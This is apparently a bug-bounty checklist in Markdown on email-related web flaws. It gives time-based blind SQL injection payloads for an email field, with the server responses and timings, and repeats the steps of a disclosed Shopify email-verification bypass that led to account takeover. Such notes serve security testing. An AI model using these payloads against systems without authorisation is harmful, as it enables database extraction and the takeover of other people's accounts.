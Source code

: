 ```yaml
---
tags:
  - web_hunting
  - logic-bugs
  - web-app-security
---
```

> **Throw Way Email Services**

Use throwaway email to create a temporary email: ○ [](https://mail.protonmail.com/)[https://mail.protonmail.com](https://mail.protonmail.com) ○ [](http://en.getairmail.com/)[http://en.getairmail.com](http://en.getairmail.com) ○ [https://temp-mail.org/en](https://temp-mail.org/en) ○ [](https://www.mailinator.com/)[https://www.mailinator.com](https://www.mailinator.com)

 - [ ] Username/Email Enumeration Non-Brute Force
```python
Check the Registration Process and try to find Idor or endpoint that leaks usernames/emails
```

- [ ] SQLI in Email Field
```jsx
# SQLI in Email Field

{"email":"asd'a@a.com"} --> Not Valid
{"email":"asd'or'1'='1@a.com" }  --> valid
{"email":"a'-IF(LENGTH(database())>9,SLEE P(7),0)or'1'='1@a.com"} --> Not Valid
{"email":"a'-IF(LENGTH(database())>9,SLEE P(7),0)or'1'='1@a.com"}  -> Valid -->  Delay: 7,854 milis
{"email":"\\"a'-IF(LENGTH(database())=10,SLEEP(7),0)or'1'='1\\"@a.com"} --> {"code":0,"status":200,"mes sage":"Berhasil"} --> Valid --> Delay 8,696 milis
{"email":"\\"a"-IF(LENGTH(database())=11,SLEEP(7),0)or'1'='1\\"@a.com"} ---> {"code":0,"status":200,"mes sage":"Berhasil"} ---> Valid --> No delay

# Resources
- <https://dimazarno.medium.com/bypassing-email-filter-which-leads-to-sql-injection-e57bcbfc6b17>
```

 > **Email Verification Feature**

 - [ ] **[Email Verification Bypass Leads to PrivEsc](https://hackerone.com/reports/791775)a**
    ```python
    Visit <https://www.shopify.com/pricing> and signup a free trial with an email address, say attacker@gmail.com that you can receive emails
    after entering the fields to enter the store, on top right corner, click your name and go to Your Profile
    change your email to someone that you want to takeover, for example yaworsk@hackerone.com and click save
    All done now, grab a coffee, sit back and relax, watch some YouTube videos and wait for an email to go to your email attacker@gmail.com
    The email that you are waiting for is from mailer@shopify.com, and sent to the old emil
    Click the link and you should see your email has been updated to yaworsk@hackerone.com
    ```
    
- [ ] **Email Verification link Doesn't Expire After Email Change Leads to Delete User Account**
    